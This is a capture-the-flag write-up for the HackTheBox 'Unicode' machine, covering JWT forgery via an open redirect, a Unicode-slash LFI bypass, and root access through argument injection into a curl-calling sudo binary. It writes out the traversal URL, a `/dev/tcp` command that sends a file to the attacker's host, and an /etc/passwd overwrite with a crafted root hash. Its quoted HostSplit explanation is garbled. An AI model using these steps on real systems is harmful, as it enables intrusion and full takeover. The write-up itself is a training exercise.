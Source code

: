 ```yaml
---
title: HackTheBox - Unicode 
categories: htb OpenRedirect jwt HostSplit 
excerpt: | 
   Unicode is a medium difficulty Linux machine.

feature_text: |
  ## Unicode - Medium 
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
``` 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fd:a0:f7:93:9e:d3:cc:bd:c2:3c:7f:92:35:70:d7:77 (RSA)
|   256 8b:b6:98:2d:fa:00:e5:e2:9c:8f:af:0f:44:99:03:b1 (ECDSA)
|_  256 c9:89:27:3e:91:cb:51:27:6f:39:89:36:10:41:df:7c (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Hugo 0.83.1
|_http-title: Hackmedia
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The machine begins with the enumeration of a webserver. Upon registering a new account on the webserver a *JWK cookie* is used to authenticate the current session.
Inspecting the JWK cookie reveals that it is signed through a jwks.json stored on the server.

There is an *open redirect* in `http://10.10.11.126/redirect?url=`. 

### Exploit vulnerabilities
Combining the findings so far an attacker could use the `jkt_tool` to generate a new couple of private and public keys, and use the open redirect to alocate in his domain a new jwks.json.

Replacing the authentication cookie with the newly crafted in [jwt.io](https://jwt.io) the server will request to the attacker machine for the jwks.json.

Once you're in dashboard page there is an heavily filtered LFI endpoint. To bypass the filtration a *HostSplit* attack can be userd since the webserver converts Unicode characters back to ASCII: 
> HostSplit vulnerability: the redirect logic for this endpoint only checked that the redirect URL ended with ".dropbox.com" this redirect would be accepted, but if a user browsed to this page with Edge, the browser would follow the redirect to https://evil.ca/c.dropbox.com instead of https://evil.ca/c.dropbox.com.

```
http://10.10.11.126/display/?page=..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8fetc%ef%bc%8fnginx%ef%bc%8fsites-available%ef%bc%8fdefault
```

Enumerating the local file system there is an db.yaml with credentials in /etc/nginx/sites-available/default. Check this file and use this credentials to create a ssh conection.

### Privilege Scalation
Look for privilege: sudo -l.
> (ALL)/(ALL) /usr/bin/treport as sudo

Examine how it works. An attacker can get the Python compiled binary and extract the source code.
1. (attacker): `nc -lvnp 443 > treport`
2. (victim): `cat < /usr/bin/treport > /dev/tcp/{tu\_ip}/443/treport`

Get the md5sum of the file to check if there was any problem.

The attacker is able extract the source code using [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) utility. Then use [pycdc](https://github.com/zrax/pycdc).

Reviewing the source code the attacker is able to spot a filtering bypass to inject command arguments to a `curl` call. 

The attacker can change the root password if he could change the /etc/passwd file. Download the passwd file of the victim's machine and change the 'x' value to an des(unix) format. Generate one of them with openssl:
> root:KW25kt7gvYupk:0:0:root:/root:/bin/bash

Use {your\_ip/passwd,-o,/etc/passwd} as input of the execution of treport.

Finally access to `su root` and use the password you have changed

